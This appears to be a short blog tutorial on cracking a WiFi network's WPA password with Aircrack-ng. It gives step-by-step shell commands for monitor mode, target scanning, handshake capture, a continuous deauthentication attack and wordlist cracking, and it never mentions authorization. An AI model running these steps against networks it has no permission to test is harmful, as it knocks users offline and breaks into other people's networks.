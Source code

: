 ```yaml
---
author: "UmmIt"
title: "Cracking WIFI Password with Aircrack-ng"
date: 2024-07-06T22:06:14+0800
tags: ["Aircrack-ng", "high-school-article-rewrite", "Cyber-Security", "WiFi"]
---
```


# rewrite

I've revisited and cleaned up this guide from my high school days to make it more understandable.

## What is Aircrack-ng?

[Aircrack-ng](https://www.kali.org/tools/aircrack-ng/) is a toolset used to assess WiFi network security. It includes:

- **Monitoring**: Capturing WiFi data packets for analysis.
- **Attacking**: Performing actions like packet injection and creating fake access points.
- **Testing**: Checking WiFi card capabilities.
- **Cracking**: Breaking WEP and WPA PSK (WPA 1 and 2) encryption.

## Hardware Requirements

To use Aircrack-ng, you need a wireless card or USB adapter. Without one, you can't perform WiFi cracking operations.

## Checking Card Status

Ensure your wireless card is recognized:

```shell
root@kali:~# iwconfig
```
![iwconfig](./iwconfig.gif)

## Starting Monitor Mode

Enable monitor mode on your wireless interface (`wlan0` or similar):

```shell
root@kali:~# airmon-ng start wlan0
```
![airmon-ng start wlan0](./airmon-ng%20start%20wlan0.png)

## Finding Target WiFi Network

Identify the WiFi network (ESSID, BSSID, and channel number):

```shell
root@kali:~# airodump-ng wlan0mon
```
![airodump-ng wlan0mon](./airodump-ng%20wlan0mon.gif)

## Creating Capture File

Capture data from the target network:

```shell
airodump-ng -d [BSSID] -c[channel] -w [capture filename] wlan0mon
```
![Creating Cap file](./capfile.gif)
![Creating Cap file-2](./capfile-2.gif)
![file](./file.gif)

## Performing Deauthentication Attack

Disconnect a device from the network to capture the necessary handshake or PMKID:

```shell
aireplay-ng --deauth 0 -a [BSSID] wlan0mon
```
![Device deauth](./handshake.gif)

## Cracking the Password

Once you've captured the handshake or PMKID, use Aircrack-ng to crack the WiFi password:

```shell
aircrack-ng [capture filename] -w [password list file]
```

![Cracking password](./cracking.png)

## Closing Monitor Mode

Disable monitor mode after you're done:

```shell
root@kali:~# airmon-ng stop wlan0mon
```
![Stop Monitor Mode](./stop.png)
